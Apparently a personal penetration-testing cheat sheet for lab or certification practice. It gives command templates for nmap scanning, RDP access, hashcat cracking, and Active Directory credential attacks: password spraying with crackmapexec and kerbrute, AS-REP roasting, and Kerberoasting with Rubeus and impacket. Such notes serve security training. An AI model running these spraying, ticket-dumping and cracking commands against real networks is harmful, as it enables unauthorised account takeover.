 ## Nmap 
```sh
sudo nmap -p- -A -Pn -v --open $IP
```
```sh
sudo nmap -sS -sV -T4 -oN nmap_default.txt <IP>
```

### Edit /etc/hosts file 
```sh
echo "10.129.76.146 sea.htb" | sudo tee -a /etc/hosts
```


### Connecting to RDP
```sh
xfreerdp3 /u:<username> /d:<domain> /p:<pwd> /v:<IP>
```
```sh
xfreerdp /cert-ignore /u:<uname> /d:<domain> /p:<pwd> /v:<IP>
```


### Hashcat

https://hashcat.net/wiki/doku.php?id=example_hashes

```sh
hashcat -m <number> hash wordlists.txt --force
```


## Active Directory 

### Password Spraying

*Crackmapexec - check if the output shows 'Pwned!'*
```sh 
crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success
```

```sh Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```

### AS-REP Roasting

*Hash of AS-REP Roastable accounts*
```sh
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request
```

### Kerberoasting

*dumping from compromised windows host, and saving with customname*

```sh
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast #dumping from compromised windows host, and saving with customname

impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request #from kali machine

hashcat -m 13100 hashes.txt wordlist.txt --force # cracking hashes
```

